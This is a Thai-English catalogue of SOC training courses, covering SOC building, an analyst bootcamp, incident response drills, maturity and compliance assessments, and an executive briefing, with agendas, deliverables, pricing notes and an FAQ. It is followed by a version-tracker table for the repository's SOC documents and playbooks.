| 1 | [🏗️ **SOC Building Workshop**](#1-soc-building-workshop) | 3 วัน | CISO, Manager, Architect | Lecture + Workshop |
| 2 | [📚 **SOC Analyst Bootcamp**](#2-soc-analyst-bootcamp) | 5 วัน | Analyst T1–T3, Engineer | Lab-intensive |
| 3 | [🔥 **Incident Response Drill**](#3-incident-response-drill) | 2 วัน | SOC Team, IR Team | Simulation |
| 4 | [📊 **SOC Maturity Assessment**](#4-soc-maturity-assessment) | 2 วัน | CISO, Manager, Director | Assessment + Workshop |
| 5 | [📋 **Compliance & Gap Analysis**](#5-compliance-gap-analysis) | 2 วัน | DPO, Auditor, Compliance | Workshop |
| 6 | [🎤 **Executive Security Briefing**](#6-executive-security-briefing) | ครึ่งวัน | CEO, CTO, Board | Keynote + Q&A |

---

## 🏗️ 1. SOC Building Workshop

> **"สร้าง SOC ตั้งแต่ศูนย์ — ออกแบบ, วางคน, เลือก tools, วาง roadmap ใน 3 วัน"**

<table>
<tr><td>

### ปัญหาที่พบบ่อย
- ❌ ไม่รู้จะเริ่มสร้าง SOC จากตรงไหน
- ❌ ลงทุน SIEM แพง แต่ไม่มี process รองรับ
- ❌ หาคนไม่ถูก, วาง team structure ไม่ได้
- ❌ ไม่มี roadmap ชัดเจน

### หลักสูตรนี้จะช่วยให้คุณ
- ✅ ออกแบบ SOC architecture ที่เหมาะกับองค์กร
- ✅ คำนวณ staffing model + budget ได้ทันที
- ✅ เลือก technology stack ตาม use case จริง
- ✅ ได้ **6-month implementation roadmap** กลับไปเลย

</td></tr>
</table>

| | รายละเอียด |
|:---|:---|
| **ระยะเวลา** | 3 วัน (18 ชั่วโมง) |
| **กลุ่มเป้าหมาย** | CISO · SOC Manager · Security Architect · IT Director |
| **จำนวนผู้เรียน** | 10–25 คน |
| **รูปแบบ** | 🎓 Lecture 40% · 🔨 Workshop 40% · 💬 Discussion 20% |

### 📅 Agenda

<details>
<summary><b>วันที่ 1 — SOC Foundation & Architecture</b></summary>

| เวลา | Module | หัวข้อ |
|:---:|:---:|:---|
| 09:00–10:30 | 1.1 | **SOC 101** — SOC คืออะไร, models (In-house / MSSP / Hybrid), business case |
| 10:30–12:00 | 1.2 | **SOC Architecture** — Physical layout, network design, tool integration, data flow |
| 13:00–15:00 | 1.3 | **Technology Stack** — SIEM/SOAR/EDR/TI comparison, evaluation criteria, RFP template |
| 15:00–16:00 | 🔨 | **Workshop: Architecture Design** — ออกแบบ SOC สำหรับ scenario จริง (กลุ่ม) |

📚 *Reference: [SOC 101](00_Getting_Started/SOC_101.en.md) · [Building Roadmap](01_SOC_Fundamentals/SOC_Building_Roadmap.en.md) · [Tech Stack](01_SOC_Fundamentals/Technology_Stack.en.md)*

</details>

<details>
<summary><b>วันที่ 2 — People & Processes</b></summary>

| เวลา | Module | หัวข้อ |
|:---:|:---:|:---|
| 09:00–10:30 | 2.1 | **Team Structure** — Roles (T1/T2/T3/Manager), skills matrix, career path |
| 10:30–12:00 | 2.2 | **Staffing & Budget** — Headcount calculator, coverage models (8×5 → 24/7), budget breakdown |
| 13:00–14:30 | 2.3 | **SOC Processes** — Playbook framework, escalation, shift handoff, SLA, change management |
| 14:30–16:00 | 🔨 | **Workshop: Staffing & Budget** — คำนวณ staffing + budget สำหรับองค์กรจริง |

📚 *Reference: [Team Structure](06_Operations_Management/SOC_Team_Structure.en.md) · [Capacity Planning](06_Operations_Management/SOC_Capacity_Planning.en.md) · [Budget](01_SOC_Fundamentals/Budget_Staffing.en.md)*

</details>

<details>
<summary><b>วันที่ 3 — Implementation Roadmap</b></summary>

| เวลา | Module | หัวข้อ |
|:---:|:---:|:---|
| 09:00–10:30 | 3.1 | **Use Case Prioritization** — Quick wins, high-value detections, log source priority |
| 10:30–12:00 | 3.2 | **Metrics & Maturity** — KPIs, MTTD/MTTR, maturity model, continuous improvement |
| 13:00–14:00 | 3.3 | **SOC Maturity Assessment** — ประเมินองค์กรจริงด้วย 7-domain model |
| 14:00–16:00 | 🔨 | **Workshop: 6-Month Roadmap** — สร้าง implementation plan + นำเสนอ |

📚 *Reference: [Use Cases](01_SOC_Fundamentals/Use_Case_Prioritization.en.md) · [Metrics](06_Operations_Management/SOC_Metrics.en.md) · [Maturity](06_Operations_Management/SOC_Maturity_Assessment.en.md)*

</details>

### 🎁 Deliverables ที่ได้รับ

| สิ่งที่ได้ | รายละเอียด |
|:---|:---|
| 📐 SOC Architecture Document | Blueprint สำหรับองค์กรตนเอง |
| 📊 Staffing Model + Budget Proposal | พร้อมนำเสนอผู้บริหารได้ทันที |
| 🗺️ 6-Month Implementation Roadmap | แผน milestone + owner + timeline |
| 📚 SOC SOP Template Pack | **170+ documents** ทั้ง EN/TH |
| 🔧 SOC Maturity Scorer | Interactive tool ประเมินตนเอง |
| 📜 Certificate of Completion | ใบรับรองการอบรม |

---

## 📚 2. SOC Analyst Bootcamp

> **"จากมือใหม่สู่ SOC Analyst มืออาชีพ — ฝึก triage, investigate, hunt, respond ใน 5 วัน"**

<table>
<tr><td>

### ปัญหาที่พบบ่อย
- ❌ Analyst เปิด alert แต่ไม่รู้จะวิเคราะห์อย่างไร
- ❌ FP rate สูง — ทีมเสียเวลากับ noise
- ❌ เกิด incident จริงแล้วไม่มั่นใจจะ respond ยังไง
- ❌ ไม่รู้จัก MITRE ATT&CK, Sigma, YARA

### หลักสูตรนี้จะช่วยให้คุณ
- ✅ Triage alerts ได้เป็นระบบ — แยก TP/FP ได้มั่นใจ
- ✅ สืบสวน incident ครบ lifecycle (Detect → Respond → Recover)
- ✅ ทำ Threat Hunting เชิงรุก ด้วย hypothesis-driven approach
- ✅ เขียน incident report คุณภาพสูง

</td></tr>
</table>

| | รายละเอียด |
|:---|:---|
| **ระยะเวลา** | 5 วัน (30 ชั่วโมง) — **intensive** |
| **กลุ่มเป้าหมาย** | SOC Analyst (T1–T3) · Security Engineer · IT ที่อยากเปลี่ยนสาย |
| **จำนวนผู้เรียน** | 10–20 คน |
| **รูปแบบ** | 🎓 Lecture 30% · 🔬 Hands-on Lab 50% · 📋 Case Study 20% |
| **Prerequisites** | พื้นฐาน Networking (TCP/IP, DNS, HTTP) + OS (Windows/Linux) |

### 📅 Agenda

<details>
<summary><b>Day 1 — SOC Fundamentals & Alert Triage</b></summary>

| เวลา | Module | หัวข้อ |
|:---:|:---:|:---|
| 09:00–10:00 | 1.1 | **SOC Operations 101** — Workflow, tiers, shift operations, tools overview |
| 10:00–11:30 | 1.2 | **MITRE ATT&CK Framework** — Tactics, techniques + Navigator hands-on |
| 11:30–13:00 | 1.3 | **Alert Triage Methodology** — TP vs FP, severity scoring, prioritization |
| 14:00–16:00 | 🔬 | **Lab: SIEM Alert Triage** — Triage 20 real alerts, classify TP/FP, assign severity |

📚 *Reference: [Tier 1 Runbook](05_Incident_Response/Runbooks/Tier1_Runbook.en.md) · [Severity Matrix](05_Incident_Response/Severity_Matrix.en.md) · [Classification](05_Incident_Response/Incident_Classification.en.md)*

</details>

<details>
<summary><b>Day 2 — Investigation Deep Dive</b></summary>

| เวลา | Module | หัวข้อ |
|:---:|:---:|:---|
| 09:00–10:30 | 2.1 | **Log Analysis** — Windows Events, Firewall, Proxy, DNS, Auth logs |
| 10:30–12:00 | 2.2 | **Network Analysis** — PCAP, flow data, C2 detection, lateral movement |
| 13:00–14:30 | 2.3 | **Endpoint Analysis** — Process tree, autoruns, memory, persistence |
| 14:30–16:00 | 🔬 | **Lab: Multi-Source Investigation** — สืบสวนจาก SIEM + EDR + network logs |

📚 *Reference: [Log Source Matrix](06_Operations_Management/Log_Source_Matrix.en.md) · [Network Monitoring](06_Operations_Management/Network_Security_Monitoring.en.md)*

</details>

<details>
<summary><b>Day 3 — Incident Response Playbooks</b></summary>

| เวลา | Module | หัวข้อ |
|:---:|:---:|:---|
| 09:00–10:00 | 3.1 | **IR Framework** — NIST lifecycle, containment, eradication, recovery |
| 10:00–11:30 | 3.2 | **Playbook: Phishing & BEC** — Header/URL/attachment analysis, sandbox |
| 11:30–13:00 | 3.3 | **Playbook: Malware & Ransomware** — Static/dynamic analysis, containment |
| 14:00–15:00 | 3.4 | **Playbook: Account Compromise** — Credential analysis, MFA bypass |
| 15:00–16:00 | 🔬 | **Lab: IR Simulation** — Phishing → Malware → Lateral Movement chain |

📚 *Reference: [IR Framework](05_Incident_Response/Framework.en.md) · [Phishing PB](05_Incident_Response/Playbooks/Phishing.en.md) · [Ransomware PB](05_Incident_Response/Playbooks/Ransomware.en.md)*

</details>

<details>
<summary><b>Day 4 — Advanced Detection & Hunting</b></summary>

| เวลา | Module | หัวข้อ |
|:---:|:---:|:---|
| 09:00–10:30 | 4.1 | **Detection Engineering** — Sigma rules, logic design, FP tuning |
| 10:30–12:00 | 4.2 | **Threat Hunting** — Hypothesis-driven, data-driven, MITRE-based hunts |
| 13:00–14:30 | 4.3 | **Cloud Security** — AWS/Azure/GCP log analysis, cloud threats |
| 14:30–16:00 | 🔬 | **Lab: Threat Hunt** — Hunt for APT ในdataset จริง |

📚 *Reference: [Hunting Playbook](05_Incident_Response/Threat_Hunting_Playbook.en.md) · [Detection Testing](06_Operations_Management/Detection_Rule_Testing.en.md) · [Cloud Monitoring](06_Operations_Management/Cloud_Security_Monitoring.en.md)*

</details>

<details>
<summary><b>Day 5 — Forensics, Reporting & Capstone 🏆</b></summary>

| เวลา | Module | หัวข้อ |
|:---:|:---:|:---|
| 09:00–10:30 | 5.1 | **Digital Forensics** — Disk / memory / network forensics, chain of custody |
| 10:30–11:30 | 5.2 | **Incident Reporting** — เขียน report, executive summary, lessons learned |
| 11:30–12:30 | 5.3 | **SOAR & Automation** — Automate triage, enrichment, response |
| 13:30–15:30 | 🏆 | **Capstone Exercise** — Full incident lifecycle: detect → investigate → contain → report |
| 15:30–16:00 | 5.5 | **Career Path** — Cert roadmap, next steps, specialization paths |

📚 *Reference: [Forensic Investigation](05_Incident_Response/Forensic_Investigation.en.md) · [SOAR Playbooks](05_Incident_Response/SOAR_Playbooks.en.md) · [Training Path](01_SOC_Fundamentals/Analyst_Training_Path.en.md)*

</details>

### 🎁 Deliverables ที่ได้รับ

| สิ่งที่ได้ | รายละเอียด |
|:---|:---|
| 📄 Personal Incident Report | จาก capstone exercise |
| 🎯 MITRE ATT&CK Coverage Map | ขององค์กรตนเอง |
| 📚 SOC SOP Template Pack | **170+ documents** ทั้ง EN/TH |
| 🔬 Lab Environment Access | ใช้ต่อได้ **30 วัน** หลังจบ |
| 📜 Certificate of Completion | ใบรับรองการอบรม |

---

## 🔥 3. Incident Response Drill

> **"ซ้อมรับมือ cyber attack ด้วย scenario จากเหตุการณ์จริง — ก่อนที่จะเจอจริง"**

<table>
<tr><td>

### ปัญหาที่พบบ่อย
- ❌ มี IR Plan แต่ไม่เคยซ้อม
- ❌ เกิด incident แล้วทีมสับสน ใครทำอะไร
- ❌ Communication ระหว่าง SOC ↔ IT ↔ Management ล่ม
- ❌ ไม่รู้ว่า detection ตัวไหนทำงาน ตัวไหนไม่ทำงาน

### หลักสูตรนี้จะช่วยให้ทีมคุณ
- ✅ ตอบสนอง incident ได้อย่างเป็นระบบ
- ✅ ค้นพบจุดอ่อนใน IR process **ก่อนเจอจริง**
- ✅ ฝึก communication ข้ามทีม (SOC ↔ IT ↔ Mgmt)
- ✅ ทดสอบ detection ด้วย real-world TTPs

</td></tr>
</table>

| | รายละเอียด |
|:---|:---|
| **ระยะเวลา** | 2 วัน (12 ชั่วโมง) |
| **กลุ่มเป้าหมาย** | SOC Team · IR Team · IT Operations · Management |
| **จำนวนผู้เรียน** | 10–30 คน (แบ่งทีมแข่งขัน) |
| **รูปแบบ** | 🎲 Tabletop 40% · 🟣 Purple Team 40% · 📋 Debrief 20% |

### 📅 Agenda

<details>
<summary><b>Day 1 — Tabletop Exercises</b></summary>

| เวลา | Module | หัวข้อ |
|:---:|:---:|:---|
| 09:00–10:00 | 1.1 | **IR Framework Review** — ทบทวน IR process, roles, communication matrix |
| 10:00–12:00 | 🎲 | **Scenario 1: Ransomware Outbreak** — WannaCry-style spreading, CEO briefing, containment decision |
| 13:00–15:00 | 🎲 | **Scenario 2: Data Breach + PDPA** — PII exfiltration, 72-hr notification, media handling |
| 15:00–16:00 | 📋 | **Debrief & Gap Analysis** — ระบุจุดอ่อน, action items |

📚 *Reference: [Tabletop Exercises](05_Incident_Response/Tabletop_Exercises.en.md) · [Ransomware PB](05_Incident_Response/Playbooks/Ransomware.en.md) · [Communication](05_Incident_Response/Communication_Templates.en.md)*

</details>

<details>
<summary><b>Day 2 — Purple Team Exercise 🟣</b></summary>

| เวลา | Module | หัวข้อ |
|:---:|:---:|:---|
| 09:00–10:00 | 2.1 | **Attack Simulation Briefing** — MITRE mapping, rules of engagement |
| 10:00–11:30 | 🟣 | **Round 1: Initial Access + Execution** — Phishing → Payload delivery |
| 11:30–13:00 | 🟣 | **Round 2: Persistence + Lateral Movement** — C2 → Spread |
| 14:00–15:00 | 🟣 | **Round 3: Exfiltration + Impact** — Data theft → Detection test |
| 15:00–16:00 | 📋 | **Detection Gap Report** — สรุป detection + improvement roadmap |

📚 *Reference: [Purple Team](09_Simulation_Testing/Purple_Team_Exercise.en.md) · [Atomic Test Map](09_Simulation_Testing/Atomic_Test_Map.en.md)*

</details>

### 🎁 Deliverables ที่ได้รับ

| สิ่งที่ได้ | รายละเอียด |
|:---|:---|
| 📄 After-Action Report | สรุปผล tabletop exercises |
| 🟣 Detection Gap Report | Detections ที่ทำงาน / ไม่ทำงาน |
| 🗺️ Improvement Roadmap | จุดที่ต้องปรับปรุง + ลำดับความสำคัญ |
| 📚 Updated Playbooks | ปรับจาก findings |
| 📜 Certificate of Completion | ใบรับรองการอบรม |

---

## 📊 4. SOC Maturity Assessment

> **"รู้จุดแข็ง-จุดอ่อนของ SOC ปัจจุบัน พร้อม roadmap ปรับปรุงที่วัดผลได้"**

<table>
<tr><td>

### ปัญหาที่พบบ่อย
- ❌ ไม่รู้ว่า SOC ตนเองอยู่ level ไหน
- ❌ ลงทุนไปแล้วแต่ไม่รู้จะปรับปรุงตรงไหนก่อน
- ❌ ขอ budget เพิ่มแต่ไม่มี data สนับสนุน
- ❌ เปรียบเทียบกับ benchmark ไม่ได้

### หลักสูตรนี้จะช่วยให้คุณ
- ✅ ประเมิน SOC ด้วย **7-domain maturity model** (Level 1–5)
- ✅ เปรียบเทียบกับ industry benchmark
- ✅ จัดลำดับ improvement ตาม **ROI สูงสุด**
- ✅ ได้ **12-month roadmap** พร้อม budget estimate

</td></tr>
</table>

| | รายละเอียด |
|:---|:---|
| **ระยะเวลา** | 2 วัน (12 ชั่วโมง) |
| **กลุ่มเป้าหมาย** | CISO · SOC Manager · Security Director · IT Director |
| **จำนวนผู้เรียน** | 5–15 คน (key stakeholders) |
| **รูปแบบ** | 🔍 Assessment 50% · 🔨 Workshop 30% · 📊 Presentation 20% |

### 📅 Agenda

<details>
<summary><b>Day 1 — Assessment</b></summary>

| เวลา | Module | หัวข้อ |
|:---:|:---:|:---|
| 09:00–10:00 | 1.1 | **Maturity Model** — 7 domains, 5 levels, scoring methodology |
| 10:00–11:30 | 🔍 | **Assess: People & Process** — Team, training, playbooks, shifts |
| 11:30–13:00 | 🔍 | **Assess: Technology & Data** — SIEM, EDR, log sources, SOAR |
| 14:00–15:30 | 🔍 | **Assess: Governance & Metrics** — KPIs, reporting, compliance |
| 15:30–16:00 | 📊 | **Score Compilation** — Radar chart + domain breakdown |

📚 *Reference: [Maturity Assessment](06_Operations_Management/SOC_Maturity_Assessment.en.md) · [KPI Dashboard](06_Operations_Management/KPI_Dashboard_Template.en.md)*

</details>

<details>
<summary><b>Day 2 — Roadmap & Planning</b></summary>

| เวลา | Module | หัวข้อ |
|:---:|:---:|:---|
| 09:00–10:30 | 2.1 | **Gap Analysis & Benchmarking** — เทียบ industry benchmark, identify quick wins |
| 10:30–12:30 | 🔨 | **Workshop: Improvement Planning** — จัดลำดับ initiatives, estimate effort + budget |
| 13:30–15:00 | 🔨 | **Workshop: 12-Month Roadmap** — Milestones, owners, budget allocation |
| 15:00–16:00 | 📊 | **Executive Presentation** — นำเสนอ findings + roadmap ให้ management |

📚 *Reference: [Capacity Planning](06_Operations_Management/SOC_Capacity_Planning.en.md) · [Assessment Checklist](06_Operations_Management/SOC_Assessment_Checklist.en.md)*

</details>

### 🎁 Deliverables ที่ได้รับ

| สิ่งที่ได้ | รายละเอียด |
|:---|:---|
| 📊 Maturity Assessment Report | Radar chart + 7-domain scores |
| 📋 Gap Analysis Report | Gaps + priorities + quick wins |
| 🗺️ 12-Month Roadmap | Milestones + owners + budget |
| 💰 Budget Estimate | สำหรับ improvement initiatives |
| 🔧 SOC Maturity Scorer Tool | [Interactive self-assessment](tools/soc_maturity_scorer.html) |
| 📜 Certificate of Completion | ใบรับรองการอบรม |

---

## 📋 5. Compliance & Gap Analysis

> **"ประเมิน compliance gap เทียบ ISO 27001 / NIST CSF / PDPA — พร้อมแผนแก้ไข"**

<table>
<tr><td>

### ปัญหาที่พบบ่อย
- ❌ จะขอ ISO 27001 แต่ไม่รู้ว่า gap อยู่ตรงไหน
- ❌ PDPA บังคับใช้แล้วแต่ยังไม่พร้อม
- ❌ Auditor มาแล้วหา evidence ไม่เจอ
- ❌ หลายมาตรฐานซ้อนกัน ไม่รู้จะจัดการยังไง

### หลักสูตรนี้จะช่วยให้คุณ
- ✅ เข้าใจ ISO 27001, NIST CSF, PCI DSS, PDPA ในเชิงปฏิบัติ
- ✅ ทำ gap analysis ได้ด้วยตนเอง
- ✅ ให้คะแนนความเสี่ยงและจัดลำดับ remediation
- ✅ เตรียม audit ได้อย่างมีประสิทธิภาพ

</td></tr>
</table>

| | รายละเอียด |
|:---|:---|
| **ระยะเวลา** | 2 วัน (12 ชั่วโมง) |
| **กลุ่มเป้าหมาย** | Compliance Officer · DPO · IT Auditor · Security Manager |
| **จำนวนผู้เรียน** | 10–20 คน |
| **รูปแบบ** | 🎓 Lecture 30% · 🔨 Workshop 50% · 📋 Planning 20% |

### 📅 Agenda

<details>
<summary><b>Day 1 — Framework Deep Dive & Assessment</b></summary>

| เวลา | Module | หัวข้อ |
|:---:|:---:|:---|
| 09:00–10:30 | 1.1 | **Framework Overview** — ISO 27001 vs NIST CSF vs PCI DSS — เลือกอะไร, overlap ตรงไหน |
| 10:30–12:00 | 1.2 | **PDPA Deep Dive** — สิ่งที่ต้องทำ, บทลงโทษ, กรณีศึกษาไทย |
| 13:00–14:30 | 🔍 | **Workshop: Control Inventory** — สำรวจ controls ที่มีอยู่ |
| 14:30–16:00 | 🔍 | **Workshop: Gap Identification** — Map controls กับ framework, ระบุช่องว่าง |

📚 *Reference: [Compliance Mapping](07_Compliance_Privacy/Compliance_Mapping.en.md) · [Gap Analysis](07_Compliance_Privacy/Compliance_Gap_Analysis.en.md) · [PDPA IR](07_Compliance_Privacy/PDPA_Incident_Response.en.md)*

</details>

<details>
<summary><b>Day 2 — Risk Scoring & Remediation</b></summary>

| เวลา | Module | หัวข้อ |
|:---:|:---:|:---|
| 09:00–10:00 | 2.1 | **Risk Scoring** — Business impact × likelihood, 4-level matrix |
| 10:00–11:30 | 🔨 | **Workshop: Score & Prioritize** — ให้คะแนน gaps ทั้งหมด |
| 11:30–13:00 | 🔨 | **Workshop: Remediation Plan** — แผนแก้ไข + owner + timeline + budget |
| 14:00–15:00 | 📋 | **Audit Preparation** — Evidence collection, pre-audit checklist, common pitfalls |
| 15:00–16:00 | 📊 | **Presentation** — นำเสนอ findings + action plan |

📚 *Reference: [Third-Party Risk](06_Operations_Management/Third_Party_Risk.en.md) · [DLP](06_Operations_Management/DLP_SOP.en.md) · [Data Handling](06_Operations_Management/Data_Handling_Protocol.en.md)*

</details>

### 🎁 Deliverables ที่ได้รับ

| สิ่งที่ได้ | รายละเอียด |
|:---|:---|
| 📊 Gap Analysis Report | Compliance status + gaps by framework |
| 📋 Prioritized Gap Register | Risk-scored + ranked |
| 🗺️ Remediation Plan | Timeline + owner + budget estimate |
| 📝 Audit Preparation Checklist | Evidence collection guide |
| 📚 Compliance SOPs Pack | Templates + policies ทั้ง EN/TH |
| 📜 Certificate of Completion | ใบรับรองการอบรม |

---

## 🎤 6. Executive Security Briefing

> **"สรุปสถานการณ์ cyber ที่ผู้บริหารต้องรู้ — กระชับ, ตรงประเด็น, actionable"**

| | รายละเอียด |
|:---|:---|
| **ระยะเวลา** | ครึ่งวัน (3 ชั่วโมง) |
| **กลุ่มเป้าหมาย** | CEO · CTO · CIO · CISO · Board of Directors |
| **จำนวนผู้ฟัง** | 5–50 คน |
| **รูปแบบ** | 🎤 Keynote 60% · 💬 Interactive Q&A 30% · 📋 Action Planning 10% |

### 📋 เลือก 3 หัวข้อ (จาก 5)

| หัวข้อ | เนื้อหา |
|:---|:---|
| 🌍 **Cyber Threat Landscape 2026** | ภัยคุกคามที่กระทบธุรกิจไทย — case study จริง, แนวโน้ม, สถิติ |
| 🏗️ **"Why We Need a SOC"** | Business case, ROI, cost of breach vs cost of prevention |
| 🔒 **Ransomware Readiness** | ซ้อมอย่างไร, จ่ายหรือไม่จ่าย, insurance, legal implications |
| 🇹🇭 **PDPA for Executives** | ความรับผิดชอบส่วนบุคคลของกรรมการ, บทลงโทษ, สิ่งที่ต้องทำ |
| 💰 **SOC Investment Strategy** | Build vs Buy vs Hybrid, budget planning, measuring success |

### 🎁 Deliverables

- 📊 Executive Summary Deck (PDF)
- 📋 Board-Ready Action Items
- 📚 Reference Materials

---

## 💰 Pricing & Options

### รูปแบบการจัดอบรม

| รูปแบบ | รายละเอียด | เหมาะกับ |
|:---|:---|:---|
| 🏢 **In-house Training** | จัดที่สถานที่ขององค์กร, ปรับ content ตาม industry | องค์กรที่ต้องการ customize |
| 👥 **Public Class** | เปิดสมัครรายบุคคล, ตารางประกาศล่วงหน้า | บุคคลทั่วไป, องค์กรขนาดเล็ก |
| 💻 **Online Live** | สอนสดผ่าน Zoom/Teams | ต่างจังหวัด, remote teams |
| 🎯 **Custom Program** | ออกแบบหลักสูตรเฉพาะตามความต้องการ | องค์กรที่มีความต้องการพิเศษ |

### ราคา

| หลักสูตร | ระยะเวลา | ราคา |
|:---|:---:|:---:|
| SOC Building Workshop | 3 วัน | สอบถาม |
| SOC Analyst Bootcamp | 5 วัน | สอบถาม |
| Incident Response Drill | 2 วัน | สอบถาม |
| SOC Maturity Assessment | 2 วัน | สอบถาม |
| Compliance & Gap Analysis | 2 วัน | สอบถาม |
| Executive Security Briefing | ครึ่งวัน | สอบถาม |

> 💡 **Early Bird** — สมัครล่วงหน้า 30 วันรับส่วนลดพิเศษ<br>
> 💡 **Group Discount** — สมัคร 5 คนขึ้นไปรับส่วนลดกลุ่ม<br>
> 💡 **Bundle** — จองมากกว่า 1 หลักสูตรรับราคาพิเศษ

---

## ❓ FAQ

<details>
<summary><b>ต้องมีพื้นฐานอะไรก่อนเรียน?</b></summary>

- **SOC Building Workshop / Maturity Assessment** → ความรู้พื้นฐาน IT Security
- **SOC Analyst Bootcamp** → พื้นฐาน Networking + OS
- **IR Drill** → มี SOC team อยู่แล้ว (ทุกระดับได้)
- **Compliance** → ความรู้พื้นฐาน Information Security
- **Executive Briefing** → ไม่จำเป็นต้องมีพื้นฐาน technical

</details>

<details>
<summary><b>ได้ใบรับรอง (Certificate) ไหม?</b></summary>

ทุกหลักสูตรมี Certificate of Completion สำหรับผู้ที่เข้าเรียนครบตามเกณฑ์

</details>

<details>
<summary><b>ปรับ content ตามองค์กรได้ไหม?</b></summary>

ได้ครับ ทุกหลักสูตรสามารถปรับ:
- Scenario ตามอุตสาหกรรม (Banking, Healthcare, Manufacturing, Telco)
- ตัวอย่างจาก tools ที่องค์กรใช้อยู่
- เพิ่ม/ลด module ตามระดับผู้เรียน

</details>

<details>
<summary><b>สอนกี่คน? มีขั้นต่ำไหม?</b></summary>

- **ขั้นต่ำ**: 5 คน (In-house) / 10 คน (Public Class)
- **สูงสุด**: 20–30 คน (ขึ้นอยู่กับหลักสูตร)
- **Executive Briefing**: 5–50 คน

</details>

<details>
<summary><b>มีเอกสารให้กลับไปใช้ต่อไหม?</b></summary>

ทุกหลักสูตรรวม **SOC SOP Template Pack 170+ ชิ้น** (EN/TH) — นำไปใช้งานได้ทันทีโดยไม่ต้องเริ่มจากศูนย์

</details>

---

## 📬 พร้อมเริ่มต้น? ติดต่อเลย

<p align="center">
  <a href="mailto:nutthakorn.ch@kmitl.ac.th"></a>
  <a href="https://www.linkedin.com/in/nutthakorn/"></a>
  <a href="https://line.me/ti/p/~pop7"></a>
</p>

<p align="center">
  <i>📌 ดู profile, certifications, และประสบการณ์เพิ่มเติมที่ <a href="https://www.linkedin.com/in/nutthakorn/">LinkedIn</a></i><br><br>
  <b>💬 ปรึกษาฟรี — ไม่มีค่าใช้จ่ายสำหรับการสอบถามเบื้องต้น</b>
</p>


---

## File: VERSION_TRACKER.md

# 📋 Document Version Tracker

> Track the version, last update, and review status of every document in the repository.
>
> **Review Policy**: All documents should be reviewed at least annually. Documents marked ⚠️ are due for review.

---

## 📍 Getting Started

| Document | Version | Last Updated | Status | Next Review |
|:---|:---:|:---:|:---:|:---:|
| [SOC 101](00_Getting_Started/SOC_101.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Quickstart Guide](00_Getting_Started/Quickstart_Guide.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Glossary](00_Getting_Started/Glossary.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |

## 🏗️ SOC Fundamentals

| Document | Version | Last Updated | Status | Next Review |
|:---|:---:|:---:|:---:|:---:|
| [SOC Building Roadmap](01_SOC_Fundamentals/SOC_Building_Roadmap.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Budget & Staffing](01_SOC_Fundamentals/Budget_Staffing.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Technology Stack](01_SOC_Fundamentals/Technology_Stack.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Infrastructure Setup](01_SOC_Fundamentals/Infrastructure_Setup.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Use Case Prioritization](01_SOC_Fundamentals/Use_Case_Prioritization.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Analyst Training Path](01_SOC_Fundamentals/Analyst_Training_Path.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |

## 🛡️ Incident Response — Core

| Document | Version | Last Updated | Status | Next Review |
|:---|:---:|:---:|:---:|:---:|
| [IR Framework](05_Incident_Response/Framework.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Severity Matrix](05_Incident_Response/Severity_Matrix.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Incident Classification](05_Incident_Response/Incident_Classification.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Escalation Matrix](05_Incident_Response/Escalation_Matrix.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Tier 1 Runbook](05_Incident_Response/Runbooks/Tier1_Runbook.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Communication Templates](05_Incident_Response/Communication_Templates.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Forensic Investigation](05_Incident_Response/Forensic_Investigation.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Evidence Collection](05_Incident_Response/Evidence_Collection.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Threat Hunting Playbook](05_Incident_Response/Threat_Hunting_Playbook.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Interview Guide](05_Incident_Response/Interview_Guide.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Disaster Recovery / BCP](05_Incident_Response/Disaster_Recovery_BCP.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [SOAR Playbooks](05_Incident_Response/SOAR_Playbooks.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Lessons Learned Template](05_Incident_Response/Lessons_Learned_Template.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Playbook Development Guide](05_Incident_Response/Playbook_Development_Guide.en.md) | 1.0 | 2026-02-16 | ✅ Current | 2027-02-16 |

## 🛡️ Incident Response — Playbooks (35)

| Playbook | Version | Last Updated | Status |
|:---|:---:|:---:|:---:|
| PB-01 Phishing → PB-10 Web Attack | 2.8 | 2026-02-16 | ✅ |
| PB-11 Suspicious Script → PB-20 Log Clearing | 2.8 | 2026-02-16 | ✅ |
| PB-21 Supply Chain → PB-25 Zero-Day | 2.8 | 2026-02-16 | ✅ |
| PB-26 MFA Bypass → PB-30 OT/ICS | 2.8 | 2026-02-16 | ✅ |
| PB-31 AWS EC2 → PB-33 Azure AD | 2.8 | 2026-02-16 | ✅ |
| PB-34 Network Discovery | 2.8 | 2026-02-16 | ✅ |
| PB-35 Data Collection | 2.8 | 2026-02-16 | ✅ |

## 📊 Operations Management

| Document | Version | Last Updated | Status | Next Review |
|:---|:---:|:---:|:---:|:---:|
| [SOC Team Structure](06_Operations_Management/SOC_Team_Structure.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [Shift Handoff](06_Operations_Management/Shift_Handoff.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
| [SOC Checklists](06_Operations_Management/SOC_Checklists.en.md) | 1.0 | 2026-02-15 | ✅ Current | 2027-02-15 |
